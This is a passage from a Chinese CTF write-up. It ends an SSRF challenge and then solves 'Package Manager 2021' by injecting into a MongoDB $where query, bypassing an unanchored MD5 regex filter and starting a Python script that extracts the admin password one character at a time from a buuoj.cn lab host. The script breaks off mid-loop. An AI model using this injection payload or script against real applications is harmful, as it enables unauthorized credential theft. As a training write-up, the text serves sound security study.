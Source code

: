 就实现了SSRF，再访问`http://b34ad16e-b7b2-4eb1-bfc1-8f0840ab5307.node4.buuoj.cn:81/api/files/123`即可得到flag。



# Package Manager 2021

看一下`schema.js`可以知道用的是mongodb。

发现`/auth`存在SQL注入：

```js
router.post('/auth', async (req, res) => {
	let { token } = req.body;
	if (token !== '' && typeof (token) === 'string') {
		if (checkmd5Regex(token)) {
			try {
				let docs = await User.$where(`this.username == "admin" && hex_md5(this.password) == "${token.toString()}"`).exec()
				console.log(docs);
```

存在一个`checkmd5Regex`的waf，不过因为写的有问题，没有加上`^$`，所以可以绕过：

```js

const checkmd5Regex = (token: string) => {
  return /([a-f\d]{32}|[A-F\d]{32})/.exec(token);
}
```

而且注意一下，用的是`==`而不是`=`。

接下来就是SQL注入出密码了，有两种方式。第一种就是正常的布尔注入：

```js
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||this.password[0]=="a
```

写个脚本跑出来即可：

```python
import requests
import string

url="http://fa767ade-d4a2-4335-a76b-84bebdea8395.node4.buuoj.cn:81/auth"
headers={
    "Cookie": "session=s:43UCQxzqHneiwEF-JP_ftZ0Aw1upXuCF.t58XyJ4BQ4rmP8Da+VdQzkHtAd1r4EkRUs9h/Zim3os",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36",
    "Referer": "http://fa767ade-d4a2-4335-a76b-84bebdea8395.node4.buuoj.cn:81/packages/submit",
    "Origin": "http://fa767ade-d4a2-4335-a76b-84bebdea8395.node4.buuoj.cn:81",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "Upgrade-Insecure-Requests": "1",
}

flag = ''
for i in range(10000):
    for j in string.printable:
        if j == '"':
            continue
        payload='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||this.password[{}]=="{}'.format(i,j)
        #print(payload)
        data={
            "_csrf":"2PzwJX5n-Y1qH02TLkz3_JXa_OBn2hpgU2G8",
            "token":payload
        }

```